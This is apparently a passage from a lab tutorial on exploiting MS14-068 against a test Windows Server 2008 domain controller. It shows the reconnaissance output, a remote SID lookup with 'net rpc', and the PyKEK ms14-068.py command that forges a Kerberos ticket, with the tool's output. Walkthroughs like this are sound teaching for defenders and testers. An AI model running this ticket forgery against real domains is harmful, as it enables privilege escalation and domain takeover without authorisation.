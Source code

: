 | smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6002 Service Pack 2 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp2
|   Computer name: msfdc01
|   NetBIOS computer name: MSFDC01
|   Domain name: metasploitable.local
|   Forest name: metasploitable.local
|   FQDN: msfdc01.metasploitable.local
|_  System time: 2014-12-10T11:02:33+00:00

After setting your local system time, we need to get the user’s SID. We can query this remotely with the net tool:

$ net rpc -W METASPLOITABLE.LOCAL -U user01 -S 172.16.80.10 shell
Enter user01's password:
Talking to domain METASPLOITABLE (S-1-5-21-2928836948-3642677517-2073454066)
net rpc> user
net rpc user> show 
net rpc user> show user01
user rid: 1105, group rid: 513

We can combine the Domain SID with the user RID to get the target user’s SID: S-1-5-21-2928836948-3642677517-2073454066-1105.

The next step is to generate our Kerberos ticket with PyKEK. We need to supply the following arguments:

-   -u USERNAME@FQDN.DOMAIN.NAME (our username)
-   -d TARGET.FDQN.DOMAIN.NAME (the domain controller)
-   -p PASSWORD (our password)
-   -s SID (our SID)

The following command has generated a forged TGT for user01 and stored it in the TGT_user01@metasploitable.local.ccache file:

$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] Building AS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending AS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving AS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing AS-REP from msfdc01.metasploitable.local... Done!
  [+] Building TGS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending TGS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Creating ccache file 'TGT_user01@metasploitable.local.ccache'... Done!
